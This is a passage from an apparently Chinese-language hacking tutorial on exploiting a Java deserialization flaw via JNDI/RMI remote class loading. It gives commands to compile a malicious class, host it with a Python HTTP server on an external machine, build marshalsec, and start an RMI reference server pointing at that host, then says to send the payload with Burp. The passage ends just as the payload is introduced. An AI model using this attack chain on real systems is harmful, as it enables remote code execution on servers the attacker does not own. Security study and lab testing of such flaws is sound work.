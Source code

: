 ```
            // do nothing
        }
    }
}
```

执行以下代码会生成一个 TouchFile.class 文件

```
javac TouchFile.java
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRdGJZjiacD9YbibwgRpodawHIyojpHHJibKCRibLIUNOjNYqYFS7wrSwVAg/640?wx_fmt=png)

把编译好的 class 文件传到外网系统中（这里我传到 kali19.2 服务器中）。并在 class 文件所在的目录，Python 起一个 http 服务。

```
python -m SimpleHTTPServer 4444  # 4444是端口，随便设置只要不冲突就可以
```

使用 marshalsec 项目，启动 RMI 服务，监听 9999 端口并加载远程类 TouchFile.class

github 项目地址：  

```
git clone https://github.com/mbechler/marshalsec.git
```

下载完成后 cd 进入到 marshalsec 项目文件里，用刚刚安装好的 maven 环境执行如下命令进行编译, 编译成功会生成一个 target 目录，出现如下编译成功。  

```
mvn clean package -DskipTests
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRqaemURHict4vpkASYk37GAuaqyNyfW2qJ4aM0wIlrOymWh4icXXsnwGA/640?wx_fmt=png)

_**成功是这样的，target 目录下会生成 marshalsec-0.0.3-SNAPSHOT-all.jar 文件。**_  

贴心的小编为懒得动手的小伙伴提供了直通车  

↓请继续往下看↓  

（建议还是自己动手操作一遍，记忆深刻）  

接下来开启 RMI 服务：

进入到编译好的文件中，执行如下命令：

```
cd target/
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://刚刚上传class文件的外网ip或域名/#TouchFile" 9999
```

这个时候攻击环境已经准备就绪了 ，祭出我们的神器 burp，然后直接执行 payload 就可以了![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVR95KKFyyx7aW2ic09Gze0Nuhzfm0l1w7via84MFG2wvKQycyhUJ0mWricw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRM1EK6rYjSx0cO7jybsktmzmBxre54QcDSO5Xj4lTzU53pIBvllDGOA/640?wx_fmt=png)

**附上 PAYLOAD：**  
